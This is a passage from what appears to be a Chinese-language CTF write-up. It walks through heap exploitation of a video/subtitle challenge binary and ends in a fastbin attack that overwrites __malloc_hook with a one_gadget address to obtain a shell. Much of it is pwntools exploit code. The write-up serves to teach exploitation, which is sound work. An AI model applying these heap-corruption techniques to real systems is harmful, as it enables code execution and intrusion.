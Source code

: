 然后对堆做一些清理，进行下一阶段的利用

```python
create_video("consume the 0x200 unsorted bin chunk", 0x200 - 0x60 - 0x10) # 14
remove(idx + 5) #delete subtitle
#causing 0x111 chunk in heap
create_video("consume that 0x111 chunk", 0x110 - 0x60 - 0x10) # 15
#now bins are empty again
```

# 0x05 fastbin attack

本来想溢出盖指针实现任意写这样直接利用的，就不用攻击堆管理器了比较简单，然后能直接改data字段的数据结构也就只有subtitle，所以就想通过subtitle那个整形溢出直接溢出他自己的类对象，改写指针到`__free_hook`，然后发现不行，因为`subtitle_init 0x26D0`在后面会把`data`字段delete掉，这个时候会delete掉`__free_hook`的地址，直接出错。。。

然后试着构造一个unsorted bin overlap chunk，就是覆盖unsorted bin的头延伸chunk大小，同时在相应新大小的尾部也要有正确的`prev_size`和`size`，这能使得unsorted bin的chunk跟subtitle的类重合，再次`new`就可以重写`subtitle`的类，然后就快成功了，我在`subtitle_edit 295A`突然发现了这行代码。。。

```python
if ( read(0, a1->field_8, 4uLL) <= 4 )
    exit(1);
```

小于等于4。。小于等于4。。。也就是说这个执行了一定会退出。。。看到这里有种想打死出题人的冲动。。。

所以还是攻击堆管理器吧（为什么早不这么做呢），可以fastbin attack写`__malloc_hook`到[one_gadget](https://github.com/david942j/one_gadget)。。这个具体原理说一下，就是在`__malloc_hook`前有一个`0x7fxxxxxxxxxx`的地址，后面紧随一个0，然后我们可以利用这个0x7f做一个伪造的0x70 fastbin chunk（思考在小端情况下这两个数在内存中的布局），可以把在0x70的fastbin的fd指针写成`libc_addr + e.symbols["__malloc_hook"] - 3 - 0x10`，这样malloc两次0x70就能覆盖`__malloc_hook`了。这个利用的是libc在分配fastbin中的free chunk时只会检查size，而且不会检查低4位，什么prev size，align和next chunk都不会检查，所以可以这么利用。

然后把`__malloc_hook`写成`one_gadget`，`0x4526a`这个刚好满足条件，然后再随便malloc一下就可以getshell

```python
#fastbin attack---------------------------
create_video("for subtitle content",0x20) #16
create_video("fastbin bin to be attacked", 0x60) #17
create_video("for subtitle struct", 0x18) #18
create_video("for subtitle content",0x20, p64(0x140) + p64(0x30)) #19 fake next chunk
create_video("for video struct", 0x50) #20
remove(idx + 16)
remove(idx + 17)
remove(idx + 18)
remove(idx + 19)
remove(idx + 20)

create_subtitle(0x21, "A" * 0x21) #21

payload = "S" * 7
payload += "A" * 0x60
payload += p64(0x71)
payload += p64(libc_addr + e.symbols["__malloc_hook"] - 3 - 0x10)

recreate_subtitle(0xffffffff, payload)

create_video("A", 0x60)
create_video("A" * 3 + p64(libc_addr + 0x4526a), 0x60)

sh.send("1\n")
recv_input()
sh.send("1\n")

sh.interactive()
```
